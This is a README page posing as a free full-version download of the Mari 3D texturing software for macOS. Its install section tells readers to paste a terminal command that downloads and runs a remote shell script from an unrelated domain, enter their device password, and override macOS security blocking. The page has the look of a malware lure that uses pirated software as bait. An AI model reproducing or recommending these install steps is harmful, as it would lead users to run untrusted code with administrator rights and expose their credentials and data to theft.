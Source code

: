 <p align="center">
  <img src="https://i.ibb.co/xSNPQx7d/1684334661-icon.webp" width="350" alt="Mari macOS Banner" />
</p>

<h1 align="center">Mari for macOS</h1>

<p align="center">
  🎨 Industry-standard 3D texturing software for VFX, animation, and games. Paint ultra-high-resolution textures directly onto 3D models with Mari on macOS.  
  <br><br>
  ✅ VFX Studio-Grade Workflow  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/274" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20MARI%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Mari for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/SwRDW6nn/1670167288-1.jpg" alt="Mari 3D Painting Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Mari for macOS?

**Mari** is a world-class 3D painting application designed for artists working in film, VFX, and AAA game development. With support for ultra-high-resolution textures and complex geometry, Mari allows artists to paint directly onto models with detailed brushes, real-time feedback, and node-based workflows.

It’s trusted by studios across the globe for assets requiring photorealistic textures and unmatched control in a professional environment.

---

## ✅ Why Choose Mari?

- 🎨 **Paint Directly on 3D Models**  
- 🧠 **Node-Based Material System**  
- 🖼️ **Handle 32K Textures with Ease**  
- 🛠️ **Custom Brush Engine for Artists**  
- 📁 **Support for UDIM and PBR Workflows**  
- 🚀 **Multi-Layered Painting with Masks**  
- 🍎 **Optimized for Apple Silicon**  
- 🧩 **Interoperable with VFX Pipelines**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/S7tNR6RM/1670167289-2.jpg" alt="Texture Painting Workflow Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/bjbP0ytS/1670167289-3.jpg" alt="Node Graph Material Setup Screenshot" />
</p>

---

## 🚀 Key Features

- High-end 3D painting engine  
- Full PBR + UDIM support  
- Custom brushes and procedural masks  
- Multi-channel layer control  
- Non-destructive node workflow  
- VFX pipeline integration  
- 32K texture support  
- Apple Silicon native

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Mari manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/3D-Texturing+Painting+UDIM-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Ready-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Mari – Paint with Precision

Thanks for using **Mari for macOS**.  
Build stunning textures, pixel by pixel.

---

## 🧭 Usage Context

Mari is built for artists in professional VFX and game environments.  
Run fully offline, paint high-resolution textures, and integrate with your preferred rendering tools.

---

## 🔍 Tags

```text
mari mac download, 3d texture painting software macos, vfx texturing tool for mac, node-based material editor mac, paint udim textures on macbook, high-res texture painter apple silicon, 3d art pipeline tool for mac artists, pbr workflow texturing app mac, mari full version for mac os x, download mari 3d painting software, substance painter alternative mac, mari mac apple m1 m2 m3 support, mari vfx production tool macos, film-grade texture paint app mac, 32k texture painting solution mac
